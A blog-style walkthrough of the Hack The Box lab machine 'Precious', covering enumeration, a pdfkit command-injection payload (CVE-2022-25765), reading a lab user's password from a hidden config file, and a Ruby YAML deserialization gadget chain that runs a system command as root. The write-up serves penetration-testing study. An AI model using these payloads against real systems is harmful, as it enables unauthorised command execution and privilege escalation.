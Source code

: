 ```yaml
---
title: "Precious"
date: 23-03-2025
categories: [Linux, Easy]
tags: [Easy, Ruby, Deserialization, RCE, CVE, PDF]
image: https://labs.hackthebox.com/storage/avatars/3adcfd6093f8ddb4dffe8422da6377c8.png
---
```


This machine was quite hard for me. I learned a lot about exploiting ruby data serialization  and finding information inside of pdf files with `exiftool`.

![precious_info_card](assets/images/precious/Precious.png)

## Enumeration

This machine only has two ports open as shown by the `nmap` scan below
```
# Nmap 7.94SVN scan initiated Sat Mar 15 09:54:17 2025 as: nmap -p22,80 -sCV -Pn -n -oN nmap/precious 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 15 09:54:24 2025 -- 1 IP address (1 host up) scanned in 7.01 seconds
```

The webpage is redirecting us to `http://precious.htb` we can add this to our hosts file and we can now visit the website. The webpage seems very straightforward, it simply takes in a **url** and produces a pdf file with the contents of that website. I ran `fuff` to identify different virtual hosts or directories but there were none therefore the only vector of exploitation is this pdf generator. 

![prcious](assets/images/precious/Pasted image 20250315095622.png)

The first thing that I tried was inputting a valid website like `nike.com` but that did not work. Following that I set up a listener on port 80 and placed my own IP address to see if I get a connect.  `http://10.10.14.27`

```
sudo nc -lvnp 80
[sudo] password for madaf: 
listening on [any] 80 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.189] 59318
GET / HTTP/1.1
Host: 10.10.14.27
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```

Following this I tried setting up my own webpage with a simple python script which I used to test the pdf generator. It could print the simple website I generated. I tried using some common file disclosure payloads that are commonly used for pdf generators to try to get files such as `/etc/passwd` but none seemed to work. 

#### PDF Generator libraries

I decided to check `wappalizer` and saw that the website was using Phusion Passenger 6.0.15. Which has support for different languages like Python and Ruby. I decided to intercept a request I made to my own page and saw the following in the headers:

```
HTTP/1.1 200 OK
Content-Type: application/pdf
Content-Length: 4595
Connection: keep-alive
Status: 200 OK
Content-Disposition: attachment; filename="wutmohqrq8opdks6kapw1gukbefusdim.pdf"
Last-Modified: Sat, 15 Mar 2025 11:18:30 GMT
X-Content-Type-Options: nosniff
Date: Sat, 15 Mar 2025 11:18:30 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
```

We can see that `X_Runtime` indicates that the website is using Ruby as the language. I downloaded of the the pdf's the website generated and used `exiftool` to examine the pdf metadata:

```
ExifTool Version Number         : 12.57
File Name                       : almtmnf8bywbjqzinc8ehve2fjjim6io.pdf
Directory                       : /home/madaf/Downloads
File Size                       : 12 kB
File Modification Date/Time     : 2025:03:15 12:01:03+01:00
File Access Date/Time           : 2025:03:15 12:01:03+01:00
File Inode Change Date/Time     : 2025:03:15 12:01:03+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We can clearly see that the file was generated using the `pdfkit` library with version `0.8.6` a quick google search indicates that this version is vulnerable to remote code execution. 

## Foothold

The aforementioned vulnerability is [CVE-2022-25765](https://www.exploit-db.com/exploits/51293) . We can quickly check if its vulnerable by inputting this payload into the url field: `http://test.local/%20 ping 10.10.14.27 -c 20` We can now use `tcpdump` to try to see if we get ping requests.

```
sudo tcpdump -i tun0
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:09:03.420024 IP 10.10.14.27.55850 > precious.htb.http: Flags [.], ack 2219377380, win 492, options [nop,nop,TS val 2661141076 ecr 3767220373], length 0
13:09:03.433761 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 1, win 501, options [nop,nop,TS val 3767230404 ecr 2661090882], length 0
13:09:08.935335 IP 10.10.14.27.55850 > precious.htb.http: Flags [P.], seq 1:578, ack 1, win 492, options [nop,nop,TS val 2661146591 ecr 3767230404], length 577: HTTP: POST / HTTP/1.1
13:09:08.951009 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 578, win 501, options [nop,nop,TS val 3767235922 ecr 2661146591], length 0
13:09:08.957799 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 1, length 64
13:09:08.957814 IP 10.10.14.27 > precious.htb: ICMP echo reply, id 13907, seq 1, length 64
13:09:09.956038 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 2, length 64
```

We see the post request and following that we see the pings being sent to our IP. This verifies that we have command execution and we can now use [this](https://github.com/UNICORDev/exploit-CVE-2022-25765?) exploit to give us a reverse shell back to our machine.  We get a reverse shell as the user `ruby`.


## Privilege Escalation

We land on the webpage's directory which contains some configuration files but nothing too interesting. I take a look at the home directory and I find that there is one more user, `henry` I also check my own home directory and after a `ls -la` I find a hidden file that contains credentials to that user. 

```
ruby@precious:/home/ruby$ cd .bundle
ruby@precious:/home/ruby/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
#### Gaining Root Access

With this new user we are able to run `/usr/bin/ruby /opt/update_dependencies.rb` as root without password. Since the binaries listed have full paths there is not much we can do regarding path abuses but we can take a look inside `/opt/update_dependencies.rb` one common privilege escalation method in this cases is finding a binary inside the executable that does not use absolute paths, this way we can include our own malicious code and execute it as root. 

Inside of `/opt/update_dependencies.rb` the only file without an absolute path is `dependencies.yml` which gets deserialized using `YAML.load(File.read())` 

```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

I got stuck here trying to find a payload that would work to grant me root access. I was told to use the following [github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) as reference. Using the second payload I was able to read the root flag.

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat root/root.txt
         method_id: :resolve
```